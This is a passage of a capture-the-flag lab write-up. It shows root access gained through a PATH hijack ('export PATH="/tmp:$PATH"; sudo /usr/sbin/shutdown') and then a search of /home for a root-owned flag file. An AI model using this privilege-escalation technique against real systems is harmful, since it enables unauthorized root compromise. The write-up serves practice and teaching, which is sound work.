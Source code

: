 2. adding `/tmp` to the `$PATH` environment variable (but at the starting so the binary look for the binary in the /tmp directory).
3. Running command -
	- ```
	  export PATH="/tmp:$PATH"; sudo /usr/sbin/shutdown
	  ```

<img width="863" height="136" alt="Screenshot From 2025-09-17 22-15-15" src="https://github.com/user-attachments/assets/725fdf9c-25bf-4e7f-ad39-3ddad63f6d9a" />

so we got the root access but the `/root/flag.txt` says `Not here -- go find!`. 

Let's find files having access only limited to root-

```
find /home -type f -group root
```

```
/home/rascal/.did-you-think-I-was-useless.root
/home/fox/user-flag.txt
/home/fox/samba/cipher.txt
```

```
cat /home/rascal/.did-you-think-I-was-useless.root
```

```
T
H
M
{RA
DAC
TED}
```

We got the root flag and this marks the end of the writeup.

### Conclusion 

This machine demonstrated the importance of thorough enumeration, as weak credentials and misconfigured services led to remote code execution. By chaining an injection flaw with local privilege escalation via insecure PATH handling, full root compromise was achieved. It highlights how small misconfigurations can quickly escalate into complete system takeover.


